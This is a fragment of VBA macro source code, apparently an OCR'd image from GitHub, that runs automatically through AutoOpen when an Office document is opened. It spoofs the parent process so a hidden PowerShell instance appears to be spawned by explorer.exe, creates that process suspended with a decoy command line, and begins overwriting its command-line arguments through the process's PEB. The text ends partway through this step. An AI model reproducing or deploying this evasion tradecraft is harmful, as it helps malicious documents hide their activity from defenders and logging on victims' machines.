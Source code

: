 ```csharp
End Function

Sub AutoOpen()
    Dim pi As PROCESS_INFORMATION
    Dim si As STARTUPINFOEX
    Dim nullStr As String
    Dim pid, result As Integer
    Dim threadAttribSize As Integer
    Dim parentHandle As LongPtr
    Dim originalCli As String
    
    originalCli = "powershell.exe -NoExit -c Get-Service -DisplayName '*network*' | Where-Object { $_.Status -eq 'Running' } | Sort-Object DisplayName"
    
    ' Get a handle on the process to be used as a parent
    pid = getPidByName("explorer.exe")
    parentHandle = OpenProcess(PROCESS_ALL_ACCESS, False, pid)

    ' Initialize process attribute list
    result = InitializeProcThreadAttributeList(ByVal 0&, 1, 0, threadAttribSize)
    si.lpAttributelist = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, threadAttribSize)
    result = InitializeProcThreadAttributeList(si.lpAttributelist, 1, 0, threadAttribSize)

    ' Set the parent to be our previous handle
    result = UpdateProcThreadAttribute(si.lpAttributelist, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, parentHandle, Len(parentHandle), ByVal 0&, ByVal 0&)

    ' Set the size of cb (see https://docs.microsoft.com/en-us/windows/desktop/api/winbase/ns-winbase-_startupinfoexa#remarks)
    si.STARTUPINFO.cb = LenB(si)
    
    ' Hide new process window
    si.STARTUPINFO.dwFlags = 1
    si.STARTUPINFO.wShowWindow = SW_HIDE

    result = CreateProcess( _
        nullStr, _
        originalCli, _
        ByVal 0&, _
        ByVal 0&, _
        1&, _
        &H80014, _
        ByVal 0&, _
        nullStr, _
        VarPtr(si), _
        pi _
    )
    
    ' Spoofing of cli arguments
    Dim size As Long
    Dim PEB As PEB
    Dim pbi As PROCESS_BASIC_INFORMATION
    Dim newProcessHandle As LongPtr
    Dim success As Boolean
    Dim parameters As RTL_USER_PROCESS_PARAMETERS
    Dim cmdStr As String
    Dim cmd() As Byte
    
    newProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, False, pi.dwProcessId)
    result = NtQueryInformationProcess(newProcessHandle, 0, pbi, Len(pbi), size)
    success = ReadProcessMemory(newProcessHandle, pbi.PEBBaseAddress, VarPtr(PEB), Len(PEB), size)
    ' peb.ProcessParameters now contains the address to the parameters - read them
```